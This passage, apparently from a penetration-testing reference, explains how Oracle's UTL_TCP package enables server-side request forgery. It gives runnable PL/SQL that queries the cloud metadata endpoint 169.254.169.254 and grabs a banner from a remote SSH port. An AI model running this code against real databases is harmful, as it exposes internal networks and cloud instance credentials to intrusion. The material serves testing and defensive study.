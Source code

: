 The `UTL_TCP` package and its procedures and functions allow [[https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190|TCP/IP based communication with services]]. If programmed for a specific service, this package can easily become a way into the network or perform full Server Side Requests as all aspects of a TCP/IP connection can be controlled.

The example [[https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190|on the Oracle documentation site shows how you can use this package to make a raw TCP connection to fetch a web page]]. We can simply it a little more and use it to make requests to the metadata instance for example or to an arbitrary TCP/IP service.

```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
  retval pls_integer;
BEGIN
  c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
  retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
  retval := utl_tcp.write_line(c);
  BEGIN
    LOOP
      dbms_output.put_line(utl_tcp.get_line(c, TRUE));
    END LOOP;
  EXCEPTION
    WHEN utl_tcp.end_of_input THEN
      NULL;
  END;
  utl_tcp.close_connection(c);
END;
/
```
```
```
DECLARE c utl_tcp.connection;
  retval pls_integer;
BEGIN
  c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
  retval := utl_tcp.write_line(c);
  BEGIN
    LOOP
      dbms_output.put_line(utl_tcp.get_line(c, TRUE));
    END LOOP;
  EXCEPTION
    WHEN utl_tcp.end_of_input THEN
      NULL;
  END;
  utl_tcp.close_connection(c);
END;
```
```
Interestingly, due to the ability to craft raw TCP requests, this package can also be used to query the Instance meta-data service of all cloud providers as the method type and additional headers can all be passed within the TCP request.
